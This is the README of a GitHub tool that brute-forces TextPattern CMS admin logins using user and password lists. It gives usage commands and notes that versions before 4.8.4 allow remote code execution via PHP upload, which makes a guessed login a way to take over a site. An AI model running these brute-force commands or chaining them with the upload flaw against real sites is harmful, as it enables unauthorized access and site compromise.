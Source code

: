 # textpattern-bruteforce

Script to brute-force websites using TextPattern CMS.

```
python3 bruteforce.py -t TARGET [-u USER] [-U USER_LIST] [-p PWD] [-P PWD_LIST] [-UP USERPWD_LIST]
```

You can use a single user (-u) or user list (-U), single password (-p) or password list (-P) or user:password list (-UP).

Examples:

- **python3 bruteforce.py -t ht<span>tps://</span>website.com/textpattern -u admin -P 500-most-common.txt** - Test the 500 most common passwords against user "admin"
- **python3 bruteforce.py -t ht<span>tps://</span>website.com/textpattern -U users.txt -P possible_passwords.txt** - Test a list of users and a list of passwords
- **python3 bruteforce.py -t ht<span>tps://</span>website.com/textpattern -UP userpass.txt** - Test a user:password list

It may be useful because Textpattern versions previous to 4.8.4 ([released past November](https://github.com/textpattern/textpattern/releases/tag/4.8.4)) allow remote code execution [by uploading any PHP file to the website](https://www.exploit-db.com/exploits/48943).

